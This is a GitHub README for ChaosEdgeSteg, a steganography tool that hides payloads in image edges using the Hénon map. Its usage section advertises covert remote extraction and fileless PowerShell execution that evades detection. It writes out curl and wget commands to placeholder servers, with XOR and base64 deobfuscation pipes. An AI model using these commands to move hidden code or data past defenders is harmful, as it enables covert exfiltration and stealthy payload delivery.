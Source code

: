 # ChaosEdgeSteg

![chaosedgesteg_shellview](https://github.com/crypt0lith/ChaosEdgeSteg/assets/118923461/731142d7-be35-4b16-9eb8-76ff947b3348)

ChaosEdgeSteg is a unique steganography tool that leverages the unpredictable nature of chaotic systems, specifically the Hénon map, combined with edge detection to embed information within images in a concealed manner.

## Introduction


### ChaosEdgeSteg's Steganographic Mechanism


**Chaotic Systems:** The core mechanism of ChaosEdgeSteg revolves around the Hénon map, a type of discrete-time dynamical system. Such systems are characterized by their sensitivity to initial conditions, a property commonly referred to as the "butterfly effect". Mathematically, the Hénon map is described by the following equations:

$$x_{n+1} = 1 - a x_n^2 + y_n$$

$$y_{n+1} = b x_n$$

Where \(a\) and \(b\) are constants. For ChaosEdgeSteg, we utilize typical values of \(a=1.4\) and \(b=0.3\) which produce chaotic behavior.

**Edge Detection:** ChaosEdgeSteg identifies edges in the cover image, which are regions with rapid intensity change, using the Canny edge detection method. These edges are less perceptible to the human eye when modified, making them ideal for embedding information.

**Embedding Mechanism:** The chaotic trajectory of the Hénon map is mapped onto the detected edge coordinates. This trajectory determines where in the image the payload will be embedded. Due to the chaotic nature of the Hénon map, this embedding is highly sensitive to minor changes in the image and nearly impossible to predict without knowledge of the initial conditions (i.e., the key).

## Features

- **Chaos-Based Security:** Utilizes the Hénon map to dictate the embedding positions, enhancing security.

- **Edge Adaptive Embedding:** Prioritizes edges for embedding, making the embedded information less perceptible.

  - **Advanced Stealth:** Adaptively adjusts edge detection thresholds to reflect both image and payload size, ensuring optimum embedding conditions and minimizing detection risk by steganalysis techniques.

- **Defense in Depth:** Requires possession of the key, payload length, and original cover image in order to extract steganographic content. Keys are checked against an embedded SHA256 hash as an additional validation mechanism.

- **Remote Extraction:** Provides options for covert extraction of data via remote hosts, enabling versatility in restrictive environments.

- **Temp PowerShell Execution:** Provides options to execute extracted Python code filelessly in a temporary PowerShell instance, maximizing impact while minimizing footprints.

- **ZIP Archive Support:** Provides support for ZIP archive embedding, allowing users to hide multiple files of any file type within an image (Usually requires larger cover images).

- **Quiet Mode:** Provides options to suppress dialogue messages, allowing output to be piped to other command-line tools in an obfuscated way.

## Installation

To use ChaosEdgeSteg, you can clone the repository:

```shell
git clone https://github.com/crypt0lith/ChaosEdgeSteg.git
cd ChaosEdgeSteg
```

After cloning the repository, install the required dependencies:

```shell
pip install -r requirements.txt
```

## Usage

### Embedding Payload

```bash
chaosedgesteg.py embed [-v/-vv] -c <cover_image_path> -f <payload_file> -k 'secret_key' [-o <output_image_path>] [-q] [--save_key] [--save_bitmaps]
```

### Extracting Payload

```bash
chaosedgesteg.py extract [-v/-vv] -c <cover_image_path> -i <stego_image_path> -k '0000::secret_key' [-o <output_file>] [-q] [-psx]
```
<br>

#### Remote Extraction

```bash
chaosedgesteg.py extract -c <cover_image_path> -iR stego_image.png <LHOST> <LPORT> -k '0000::secret_key' [-oR <output_file> <LHOST> <LPORT>] [--echo] [--obfuscate]
```

`-iR <stego_image.png> <LHOST> <LPORT>` instantiates an HTTP PUT server. 

Upload the stego image as a remote host via `curl --upload-file`:

```bash
curl --upload-file stego_image.png http://PUT_SERVER_IP:4444/
```


- Use `-iR` with `--echo` to send the payload back to the remote host in plaintext:

    ```bash
    chaosedgesteg.py extract -c <cover_image_path> -iR stego_image.png <LHOST> <LPORT> -k "0000::secret_key" --echo [--obfuscate]
    ```

- Use `-iR` with `--echo --obfuscate` **(recommended)** to base64 encode and XOR obfuscate the payload, then pipe the additional commands on the remote host:
    ```bash
    curl --upload-file stego_image.png http://PUT_SERVER_IP:4444/ | perl -pe 's/(.)/chr(ord($1) ^ 0xFF)/ge' | perl -pe 's/(.)/chr(ord($1) ^ 0x55)/ge' | base64 -d
    ```


Similar to `-iR`, `-oR <output_file> <LHOST> <LPORT>` can be used to instantiate an HTTP GET server. 

Download the extracted file as a remote host via `wget`:

```bash
wget http://GET_SERVER_IP:4884/extracted.zip
```
